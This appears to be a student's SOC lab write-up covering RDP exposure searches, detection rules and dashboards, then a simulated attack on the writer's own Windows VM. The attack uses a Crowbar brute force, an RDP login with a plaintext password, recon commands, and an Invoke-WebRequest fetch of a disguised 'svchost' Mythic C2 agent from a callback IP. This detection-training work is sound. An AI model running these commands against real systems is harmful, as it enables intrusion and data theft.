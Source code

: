 # Week 3: Brute Force RDP Attack Simulation and Mythic C2 Setup

## Steps

### 1. Finding Exposed RDP Servers
- **Using Shodan**: Search for servers with exposed RDP on the default port.
  ![Shodan Search]() 
- **Using Censys**: Perform the same search to verify results.
  ![Censys Search](link_to_your_image) 

### 2. Monitoring Failed RDP Attempts
- Created a log query for failed RDP attempts and confirmed my own failed login.
  ![Failed RDP Log Query](link_to_your_image) <!-- Replace with actual image link -->
- Generated alerts similar to earlier SSH queries.
  ![Alert Generation](link_to_your_image) <!-- Replace with actual image link -->
- Executed a brute force attack on my Windows server to generate an alert.
  ![Brute Force Alert](link_to_your_image) <!-- Replace with actual image link -->

### 3. Configuring Detection Rules
- **Detection Rule Setup**:
    - Current rules only query thresholds; need to create detection rules under **Security**.
      ![Detection Rule Setup](link_to_your_image) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment.
      ![Preconfigured Rules](link_to_your_image) <!-- Replace with actual image link -->
    - Configured data involved in the new rules, mirroring the process used for SSH attempts.
      ![Configuring New Rules](link_to_your_image) <!-- Replace with actual image link -->

### 4. Data Visualization
- Created maps for new RDP data queries (following SSH attempt mapping steps).
  ![RDP Data Map](link_to_your_image) <!-- Replace with actual image link -->
- Developed tables for dashboard visualization:
    - **Failed and Successful SSH Attempts** to the exposed Ubuntu server.
      ![SSH Attempts Visualization](link_to_your_image) <!-- Replace with actual image link -->
    - **RDP Activity Tracking** on the exposed Windows server.
      ![RDP Activity Table](link_to_your_image) <!-- Replace with actual image link -->

### 5. Attack Diagram Creation
- Created an attack diagram outlining the threat actor's process.
  ![Attack Diagram](link_to_your_image) <!-- Replace with actual image link -->

### 6. Setting Up Mythic C2
- **Spin Up Ubuntu Server**:
    ```bash
    sudo apt install docker-compose
    sudo apt install make
    git clone https://github.com/its-a-feature/mythic
    cd mythic
    docker-compose up -d
    sudo systemctl restart docker
    ```
  ![Ubuntu Server Setup](link_to_your_image) <!-- Replace with actual image link -->
- Verified Docker status before restarting the service.
  ![Docker Status](link_to_your_image) <!-- Replace with actual image link -->

### 7. Starting Mythic
- Run the following command to start Mythic:
    ```bash
    make
    ./mythic-cli start
    ```
  ![Starting Mythic](link_to_your_image) <!-- Replace with actual image link -->

### 8. Configuring Mythic
- Tightened firewall rules, allowing exceptions for Windows and Ubuntu servers.
  ![Firewall Configuration](link_to_your_image) <!-- Replace with actual image link -->
- Accessed Mythic web GUI:
    - Default user: `mythic_admin`
    - Find password with:
        ```bash
        cat .env | grep -i admin_password
        ```
  ![Mythic GUI Login](link_to_your_image) <!-- Replace with actual image link -->

### 9. Preparing for the Attack
- Created a target file on the Windows VM with admin password.
  ![Target File Creation](link_to_your_image) <!-- Replace with actual image link -->
- Moved to Kali Linux's wordlists directory and prepared `rockyou.txt`:
    ```bash
    gunzip rockyou.txt.gz
    head -n 50 rockyou.txt > ~/Documents/top_50_words.txt
    ```
  ![Preparing Wordlists](link_to_your_image) <!-- Replace with actual image link -->

### 10. Brute Force with Crowbar
- Added the Windows password to the wordlist for easier access.
  ![Wordlist Modification](link_to_your_image) <!-- Replace with actual image link -->
- Installed Crowbar:
    ```bash
    sudo apt-get install -y crowbar
    ```
  ![Crowbar Installation](link_to_your_image) <!-- Replace with actual image link -->
- **Target File Setup**: 
    - Created `target.txt` containing the public IP and username:
      ```
      155.138.220.109 Administrator
      ```
  ![Target File Setup](link_to_your_image) <!-- Replace with actual image link -->

- **Brute Force Command**:
    ```bash
    crowbar -b RDP -u Administrator -C top_50_words.txt -s 155.138.220.109
    ```
  ![Brute Force Command](link_to_your_image) <!-- Replace with actual image link -->

### 11. RDP Session Access
- Used `xfreerdp` to access the RDP session:
    ```bash
    xfreerdp /u:Administrator /p:Winter2024! /v:155.138.220.109
    ```
  ![Accessing RDP Session](link_to_your_image) <!-- Replace with actual image link -->
- Executed commands for intelligence gathering:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```
  ![Command Execution](link_to_your_image) <!-- Replace with actual image link -->

### 12. Downloading and Executing Payload
- SSH into Mythic server and download agent:
    ```bash
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```
  ![Mythic Agent Download](link_to_your_image) <!-- Replace with actual image link -->

- Install HTTP profile:
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```
  ![HTTP Profile Installation](link_to_your_image) <!-- Replace with actual image link -->

- Created payload:
    - Ensured it calls back to the C2 server's public IP.
    - Downloaded the payload using:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ```
  ![Payload Creation](link_to_your_image) <!-- Replace with actual image link -->

### 13. Finalizing the Attack
- Allowed HTTP connection on firewall:
    ```bash
    ufw allow 80
    ```
  ![Allowing HTTP Connection](link_to_your_image) <!-- Replace with actual image link -->
- Ran the payload on the Windows server.
  ![Payload Execution](link_to_your_image) <!-- Replace with actual image link -->
- Monitored Mythic GUI for established session and confirmed successful file extraction from the agent.
  ![Mythic GUI Session](link_to_your_image) <!-- Replace with actual image link -->

## Conclusion
This week focused on simulating a brute force RDP attack while setting up the Mythic C2 server. Key tasks included finding exposed RDP servers, configuring detection rules, and creating payloads for further exploitation.
